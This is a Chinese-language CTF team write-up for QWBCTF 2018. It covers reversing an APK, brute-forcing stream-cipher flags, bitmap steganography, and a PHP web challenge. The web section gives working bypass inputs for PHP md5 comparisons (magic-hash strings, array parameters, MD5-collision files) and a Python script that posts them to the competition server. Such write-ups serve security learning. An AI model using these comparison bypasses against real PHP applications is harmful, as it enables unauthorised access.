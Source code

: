 ```yaml
---
layout:     post
title:      "QWBCTF 2018 Writeup"
subtitle:   "QWB{xxxxxxxxxxxxx}"
date:       2018-03-26 22:00 +0800
author:     "gsfish, ThTsOd, ydh"
header-img: "img/post-bg-hacker.jpg"
tags:
    - CTF
---
```



# Reverse

## 0x00 simplecheck

下载下来发现是个 zip 文件，打开后发现是 apk，用 jeb 载入并反编译

![01.png](/img/qwbctf-2018-writeup/01.png)

发现 `a` 是验证函数，跟入

![02.png](/img/qwbctf-2018-writeup/02.png)

转成 C 语言，各个位独立，暴力解出 flag

![03.png](/img/qwbctf-2018-writeup/03.png)


# Crypto

## 0x01 streamgame1

根据 `R=int(flag[5:-1],2)` 以及 `len(flag)==25` 推测 flag 为 19 个二进制位，暴力解出 flag 即可

![04.png](/img/qwbctf-2018-writeup/04.png)

## 0x02 streamgame2

和上题一样，根据 `R=int(flag[5:-1],2)` 以及 `len(flag)==27` 推测 flag 为 21 个二进制位，暴力解出 flag 即可

![05.png](/img/qwbctf-2018-writeup/05.png)

## 0x03 streamgame4

和上题一样，根据 `R=int(flag[5:-1],2)` 以及 `len(flag)==27` 推测 `flag` 为 21 个二进制位，这里只验证 key 前 16 个字节，暴力解出 flag 即可

![06.png](/img/qwbctf-2018-writeup/06.png)


# Misc

## 0x04 welcome

下载下来发现是 dib 文件，用 16 进制编辑器打开，发现前 2 个字节是 `BM` 重命名为 bmp 后用 StegSolve 打开。用 Stereogram Solver 偏移量 `offset` 为 80 后发现 flag

![07.png](/img/qwbctf-2018-writeup/07.png)


# Web

## 0x05 Web 签到

第一关网页源码的提示人如下。可用 PHP 弱类型过掉，`param1=QNKCDZO`、`param2=s878926199a`：

```php
if($_POST['param1']!=$_POST['param2'] && md5($_POST['param1'])==md5($_POST['param2'])){
    die("success!");
}
```

第二关将等于换成了全等于，传进去一个数组即可，使 `md5()` 的结果为 `null`。`param1[]=123`、`param2[]=456`。

```php
if($_POST['param1']!==$_POST['param2'] && md5($_POST['param1'])===md5($_POST['param2'])){
    die("success!");
}
```

第三关网页源码如下。由于使用了强制类型转换，传递对象则会转换为对象名称，因此只能使用 MD5 相等的字符串。使用 fastcoll 根据同一个文件生成了两个内容有差异，但 MD5 相同的文件 f1、f2，使用文件的二进制内容作为 param1、param2 参数。

```php
if((string)$_POST['param1']!==(string)$_POST['param2'] && md5($_POST['param1'])===md5($_POST['param2'])){
    die("success!);
}
```

使用脚本如下：

```python
import requests
session = requests.Session()
step1 = session.post("http://39.107.33.96:10000", data={
	"param1": "QNKCDZO",
	"param2": "s878926199a"
})
step2 = session.post("http://39.107.33.96:10000", data={
    "param1[]": "123",
    "param2[]": "456",
})
step3 = session.post("http://39.107.33.96:10000", data={
	"param1": open('f1', 'rb').read(),
	"param2": open('f2', 'rb').read()
})
print(step3.content)
```
